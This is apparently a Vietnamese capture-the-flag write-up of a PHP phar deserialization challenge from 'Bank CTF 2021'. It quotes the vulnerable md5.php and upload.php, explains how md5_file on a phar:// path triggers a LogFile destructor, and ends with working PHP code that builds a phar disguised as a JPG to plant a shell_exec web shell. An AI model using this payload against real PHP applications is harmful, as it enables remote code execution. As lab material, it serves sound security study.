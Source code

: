 # Phar deserialization - Bank CTF 2021

## Source code : [lele.zip](https://github.com/CTF-STeam/ctf-writeups/files/6240642/lele.zip)

## Writeup :
- Khi lướt qua nội dung 3 file **upload.php** **md5.php** và **logging.php** , ta thấy được **logging.php** chỉ được include chứ không được gọi lần nào cả. Đây chính là hint của tác giả ra đề.
- **logging.php** có định nghĩa hàm ```_destruct() ``` của class **Logfile** được sử dụng ghi ra 1 file. Rõ ràng tác giả muốn nói rằng, ta phải khai thác class **LogFile** trong **logging.php**
- Với thông tin trên, chắc chắn attack vector của bài này là phar deserialization. Vấn đề là nó sẽ deserialization ở đâu.
- Nhìn vào file **md5.php** như dưới đây
```
<?php
    session_start();
    include 'logging.php';
    //echo $_SESSION['path'];
    if(isset($_GET['file'])){
        $file = str_replace('<','',$_GET['file'],$i);
        if ($i){
                die();
        }
        $a = md5_file($file);
        echo '<b>MD5 '.$file.':</b>';
        echo '<br>'.$a;
        echo "<br><a href='./index.html'>Back</a>";
    }
    else{
        $a = md5_file($_SESSION['path']);
        echo '<b>MD5 '.$_SESSION['path'].':</b>';
        echo '<br>'.$a;
        echo "<br><a href='./index.html'>Back</a>";
    }

	/*DienTapATTT{nobug_nobounty__bigbug_bigbounty_nopain_nogain}*/
?>
```
- Đọc blog ở https://www.programmersought.com/article/22324374929/ ,  ta thấy **md5_file** có thể lợi dụng để deserialize phar. Quá toẹt vời! Chỉ cần upload được file phar lên là sẽ deserialization attack
- Tuy nhiên, check file **upload.php** , đoạn code bên dưới là đoạn chỉ cho phép upload **jpg, png, gif** 
```
$allowedExtensions = ['jpg', 'png', 'gif'];

    $fName = $_FILES['imageUpload']['name'];
    $fName = str_replace('<','',$fName,$i);
    if ($i){
        echo 'File name is not allowed!hihi';
        echo "<br><a href='./index.html'>Back</a>";
        die();
    }
    $fSize = $_FILES['imageUpload']['name'];
    $fTmp = $_FILES['imageUpload']['tmp_name'];
    $fType = $_FILES['imageUpload']['type'];
    $fExt = strtolower(end(explode('.', $fName)));
```
- Quay lại blog bên trên https://www.programmersought.com/article/30483796863/ , tác giả có viết như sau
```
 Sam Thomas found that the Phar file can be hidden in a JPG file, so this step can be directly achieved by using the common image upload function
```
- Vậy là đủ yếu tố để thực hiện exploit, cơ bản ý tưởng sẽ như sau
  + Tạo 1 file phar tên **payload.phar**
  + Rename file thành **payload.jpg**
  + Upload file, file sẽ được lưu ở /var/www/uploads/payload.jpg
  + Gọi http://target/md5.php?file=phar://var/www/uploads/payload.jpg
  + Shell sẽ được ghi trên server
  + Flag! **ATTT{PharDeserialization_1412.}**
## Code sinh Payload.phar
```
<?php
include 'logging.php';
$payload = new LogFile();
$payload->filename = '/var/www/html/uploads/shellvl.php';
$payload->fcontents = "<?php echo shell_exec(\$_GET['e'].' 2>&1'); ?>";
var_dump($payload);

// create new Phar
@unlink("payload.phar");
$phar = new Phar('payload.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');
//set payload
$phar->setMetadata($payload);
$phar->stopBuffering();
?> 
```
Chạy ```php poc.php``` sẽ sinh ra **payload.phar**
